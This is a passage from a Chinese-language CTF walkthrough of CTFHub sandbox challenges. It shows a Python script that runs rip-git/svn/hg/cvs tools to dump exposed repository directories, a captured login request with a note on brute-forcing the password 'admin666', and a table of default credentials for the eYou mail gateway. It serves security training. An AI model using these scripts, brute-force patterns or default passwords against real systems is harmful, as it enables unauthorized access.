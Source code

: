 ```python
link = 'http://challenge-ad97e51c040516fb.sandbox.ctfhub.com:10080'
import os
os.system('./rip-git.pl -v -u %s/.git/'%link)
os.system('./rip-hg.pl -v -u %s/.hg/'%link)
os.system('./rip-svn.pl -v -u %s/.svn/'%link)
os.system('./rip-cvs.pl -v -u %s/CVS/'%link)
os.system('./rip-git.pl -m -o /dir -v -u %s/.git/'%link)
```

![image-20200716115716225](image-20200716115716225.png)

![image-20200716120039002](image-20200716120039002.png)

![image-20200716120049766](image-20200716120049766.png)

### 密码口令

#### 弱口令

抓包：

```
POST / HTTP/1.1
Host: challenge-177b09f032f3bbb0.sandbox.ctfhub.com:10080
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://challenge-177b09f032f3bbb0.sandbox.ctfhub.com:10080
Connection: close
Referer: http://challenge-177b09f032f3bbb0.sandbox.ctfhub.com:10080/
Upgrade-Insecure-Requests: 1

name=admin&password=passwd&referer=
```

常用的弱口令字典爆破不出来，尝试用账号+三位数字的形式爆破得到密码admin666

#### 默认口令

给了个亿邮邮件网关的登录界面，该系统的默认口令有：

| 账号     | 密码         |
| -------- | ------------ |
| eyouuser | eyou_admin   |
| eyougw   | admin@(eyou) |
| admin    | +-ccccc      |
| admin    | cyouadmin    |
